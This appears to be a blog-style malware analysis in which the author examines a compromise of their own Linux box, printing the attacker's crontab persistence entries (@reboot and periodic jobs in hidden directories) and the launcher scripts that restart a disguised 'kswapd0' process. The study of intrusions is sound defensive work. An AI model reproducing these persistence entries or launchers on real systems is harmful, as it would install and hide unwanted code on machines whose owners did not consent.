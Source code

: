 ```
1 1 */2 * * /home/test/.configrc/a/upd>/dev/null 2>&1
@reboot /home/test/.configrc/a/upd>/dev/null 2>&1
5 8 * * 0 /home/test/.configrc/b/sync>/dev/null 2>&1
@reboot /home/test/.configrc/b/sync>/dev/null 2>&1  
0 0 */3 * * /tmp/.X25-unix/.rsync/c/aptitude>/dev/null 2>&1
```

Ah.  The two `@reboot` lines are what start the code on boot; I didn't even know
there was such a thing as `@reboot`.  The first line just runs the same code as
the reboot at 1 minute past 1 am every other day, presumably in case it dies or
is killed.  The third line is the same as the fourth line, but runs weekly.  The
fifth line is more interesting: it calls a file which is clearly created by the
others every third day at midnight.  This file pretends to be aptitude (I run
arch, so that would have raised eyebrows).  It's probably the phone-home code.
Fortunately it hasn't run, because `kswapd0` used so much cpu I spotted it
instantly.

## Reverse Engineering

`a/upd` contains the following:

```bash
#!/bin/sh
cd /home/test/.configrc/a
if test -r /home/test/.configrc/a/bash.pid; then
pid=$(cat /home/test/.configrc/a/bash.pid)
if $(kill -CHLD $pid >/dev/null 2>&1)
then
exit 0
fi
fi
./run &>/dev/null
```

Other than the complete lack of indentation, this is easy: it tries to read the
current pid from a file and kill the process, and then start it.  So now to
`a/run`:

```bash
#!/bin/bash
./stop
#./init0
sleep 10
pwd > dir.dir
dir=$(cat dir.dir)
ARCH=`uname -m`
	if [ "$ARCH" == "i686" ]; then
		nohup ./anacron >>/dev/null & 
	elif [ "$ARCH" == "x86_64" ];   then
		./kswapd0
	fi
echo $! > bash.pid
```
